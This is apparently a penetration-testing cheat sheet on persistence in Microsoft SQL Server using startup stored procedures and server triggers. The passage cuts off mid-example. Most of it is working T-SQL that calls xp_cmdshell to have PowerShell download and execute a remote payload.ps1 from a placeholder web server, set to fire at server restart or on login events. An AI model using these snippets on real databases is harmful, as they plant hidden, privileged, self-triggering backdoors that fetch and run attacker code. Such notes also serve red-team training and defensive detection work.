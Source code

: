 ## Persistence

### Startup stored procedures

- `sysadmin` privileges are required to mark proc for automated execution
- Owned only by `sa`
- Must be in the `master` database
- Cannot have input or output parameters
- Gets executed with `sysadmin` privileges
- Executed when SQL Server restart
- References:
  - <https://technet.microsoft.com/en-us/library/ms191129(v=sql.105).aspx>
  - <https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-procoption-transact-sql>
  - <https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/>
- Create:
    ```sql
    USE master
    GO

    CREATE PROCEDURE sp_autops
    AS
    EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"'
    GO
    ```
    ```sql
    EXEC sp_procoption @ProcName = 'sp_autops', @OptionName = 'startup', @OptionValue = 'on';
    ```
- List:
    ```sql
    SELECT [name] FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
    ```

### Triggers

- References:
  - <https://docs.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql>

#### Data Definition Language (DDL) Triggers

- Execute under the context of the user that calls the trigger
- References:
  - <https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/>
  - <https://docs.microsoft.com/en-us/sql/relational-databases/triggers/implement-ddl-triggers>
  - <https://docs.microsoft.com/en-us/sql/relational-databases/triggers/ddl-event-groups>
    ```sql
    CREATE Trigger [persistence_ddl_1]
    ON ALL Server -- or DATABASE
    FOR DDL_LOGIN_EVENTS -- See the docs below for events and event groups
    AS
    EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')
    GO
    ```
#### Data Manipulation Language (DML) Triggers
- Execute under the context of the user that calls the trigger
- User should have privilages to do the task in the trigger
- References:
  - <https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/>
  - <https://docs.microsoft.com/en-us/sql/relational-databases/triggers/create-dml-triggers>
    ```sql
    USE master